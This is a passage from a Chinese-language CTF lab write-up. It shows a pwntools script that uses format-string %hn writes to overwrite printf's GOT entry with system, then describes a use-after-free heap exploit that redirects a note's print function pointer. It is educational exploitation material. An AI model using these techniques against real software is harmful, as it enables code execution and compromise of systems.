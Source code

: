```python
r.recvuntil('qwer')
p = "%" + str(high) + "c" + "%10$hn qwer"
r.sendline(p)
r.recvuntil('qwer')


#向printf_got中写system
low = system_addr & 0xffff
high = system_addr >> 16
p = "%" + str(low) + "c" + "%14$hn qwer"
r.sendline(p)
r.recvuntil('qwer')
print('system的低2字节已经写入')


print('ebp1重新指回')
p = "%" + str(num) + "c" + "%6$hhn qwer"
r.sendline(p)
r.recvuntil('qwer')
print('指向printf_got的高2字节')
p = "%" + str((printf_got & 0xff) + 2) + "c" + "%10$hhn qwer" # 关键，把指针指向printf_got的高2字节，然后继续写入system的高2字节
r.sendline(p)
r.recvuntil('qwer')
#写system的高2字节
p = "%" + str(high) + "c" + "%14$hn qwer"
r.sendline(p)
r.recvuntil('qwer')
'''
```

# lab10

> 考点 UAF

开始进入heap exploitation

add note结构

![image-20220915212526779](/assets/img/2022/image-20220915212526779.png)

漏洞点：UAF

![image-20220914213018042](/assets/img/2022/image-20220914213018042.png)

把print_note_context指针改成magic即可![image-20220914222704367](/assets/img/2022/image-20220914222704367.png)

利用：创建note-context-note-context：0x10-0x28-0x10-0x28的堆排布，free(note1) , free(note0), 于是0x10的fastbin中有两个chunk，然后再次创建一个note时，使得该note的context与note0 overlap， 就可以修改note0的print_note_context指针

![image-20220915212442473](/assets/img/2022/image-20220915212442473.png)
